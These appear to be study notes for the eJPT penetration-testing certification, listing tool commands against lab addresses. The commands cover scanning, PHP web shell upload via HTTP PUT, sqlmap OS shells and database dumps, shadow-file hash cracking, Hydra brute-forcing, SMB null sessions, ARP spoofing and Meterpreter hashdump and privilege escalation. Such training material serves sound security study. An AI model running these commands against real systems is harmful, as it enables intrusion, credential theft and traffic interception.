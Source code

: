 ## eJPT Notes
**Routing**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ip route add ROUTETO via ROUTEFROM
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

------------



**whois**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
whois site.com
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

------------



**Ping Sweep**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
fping -a -g 10.10.10.0/24 2>/dev/null
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap -sn 10.10.10.0/24
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


------------


**Nmap Scans**
**OS Detection**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap -Pn -O 10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Nmap Scan (Quick)**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap -sC -sV 10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Nmap Scan (Full)**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap -sC -sV -p- 10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Nmap Scan (UDP Quick)**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap -sU -sV 10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

------------


**Banner Grabbing**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc -v 10.10.10.10 port
HEAD / HTTP/1.0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**OpenSSL for HTTPS services**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
openssl s_client -connect 10.10.10.10:443
HEAD / HTTP/1.0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Httprint**
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
httprint -P0 -h 10.10.10.10 -s /path/to/signaturefile.txt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**HTTP Verbs**
GET, POST, HEAD, PUT, DELETE, OPTIONS
Use the OPTIONS verb to see what other verbs are available
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc 10.10.10.10 80
OPTIONS / HTPP/1.0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

You can use HTTP verbs to upload a php shell. Find the content length, then use PUT to upload the shell. Make sure you include the size of the payload when using the PUT command.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
wc -m shell.php
x shell.php


PUT /shell.php
Content-type: text/html
Content-length: x
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

------------


**Directory and File Scanning**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
dirsearch.py -u http://10.10.10.10 -e *
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
gobuster -u 10.10.10.10 -w /path/to/wordlist.txt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
dirb http://10.10.10.10/ -u username:pass
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

------------



**Advanced Google Searches**
site:
intitle:
inurl:
filetype:
AND, OR, &, |, -

------------


**Cross Site Scripting (XSS)**
Steps:
1. Find a reflection point
2. Test with <i> tag
3. Test with HTML/JavaScript code (alert('XSS'))
Reflected XSS = Payload is carried inside the request the victim sends to the website. Typically the link contains the malicious payload
Persistent XSS = Payload remains in the site that multiple users can fall victim to. Typically embedded via a form or forum post

------------


**SQLMap**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sqlmap -u http://10.10.10.10 -p parameter
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sqlmap -u http://10.10.10.10  --data POSTstring -p parameter
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sqlmap -u http://10.10.10.10 --os-shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sqlmap -u http://10.10.10.10 --dump
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


------------


**System Attacks**
The other type of ‘attack’ you will be doing are system attacks. Make sure you understand why/how to brute force types of services and hashes, as well as basic metasploit usage.

**Password Attacks**
Unshadow
This prepares a file for use with John the Ripper

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
unshadow passwd shadow > unshadow
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


**Hash Cracking**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
john -wordlist /path/to/wordlist -users=users.txt hashfile
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


------------


**Network Attacks**
**Brute Forcing with Hydra**
replace ‘ssh’ with any relevant service

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
hydra -L users.txt -P pass.txt -t 10 10.10.10.10 ssh -s 22
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
hydra -L users.txt -P pass.txt telnet://10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


------------


**Windows Shares Using Null sessions**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmblookup -A 10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

(list shares)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient -L //10.10.10.10 -N
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

 (mount share)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient //10.10.10.10/share -N
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
enum4linux -a 10.10.10.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


------------


**ARP spoofing**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
echo 1 > /proc/sys/net/ipv4/ip_forward
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
arpspoof -i tap0 -t 10.10.10.10 -r 10.10.10.11
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

------------



**Metasploit**
Basic Metasploit Commands

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
search x
use x
info
show options, show advanced options
SET X (e.g. set RHOST 10.10.10.10, set payload x)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


**Meterpreter**


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
background

sessions -l

sessions -i 1

sysinfo, ifconfig, route, getuid

getsystem (privesc)

bypassuac

download x /root/

upload x C:\\Windows

shell

use post/windows/gather/hashdump
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



